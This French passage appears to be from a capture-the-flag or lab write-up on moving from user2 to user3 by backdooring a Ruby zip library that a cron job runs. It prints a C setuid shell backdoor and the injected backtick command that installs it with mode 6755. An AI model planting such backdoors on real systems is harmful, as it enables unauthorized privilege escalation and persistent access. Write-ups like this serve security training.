 Détournement de Ruby
--------------------

Vu que notre librairie nous a ouvert l'accès à *user2*, c'est le moment de se pencher sur l'utilisateur suivant.  

On sait que le script */sbin/bckup* est appelé par cron en tant que *user3*. Voici son contenu :  

```plain
#!/usr/bin/env ruby

require 'rubygems'
require 'zip'

directory = '/etc/firewalld/'
zipfile_name = '/tmp/firewalld-backup.zip'

File.delete(zipfile_name) if File::exists?(zipfile_name)
Zip::File.open(zipfile_name, Zip::File::CREATE) do |zipfile|
        Dir[File.join(directory, '**', '**')].each do |file|
          zipfile.add(file.sub(directory, ''), file)
        end
end
```

Je ne connais rien à Ruby mais je sais que *user2* dispose des droits d'écriture sur le module zip. Il s'avère que le langage Ruby permet d'exécuter des commandes shell via l'utilisation des backticks... Une façon simple de backdoorer la librairie :)  

L'utilisateur *user3* n'a pas de dossier dans /home donc on ne peut pas copier le fichier *authorized\_keys* comme précédemment. On va compiler la backdoor setuid suivante :  

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
  setreuid(996, 996);
  setregid(994, 994);
  system("/bin/bash -p");
  return 0;
}
```

Puis on rajoute la ligne suivante à la fin du fichier *zip.rb* :  

```plain
print `cp /tmp/setuid_user3 /tmp/go_user3; chmod 6755 /tmp/go_user3;`
```

On attend quelques minutes et on a notre accès :  

```plain
-rwsr-sr-x. 1 user3 user3 8632 24 nov.  09:41 go_user3
```
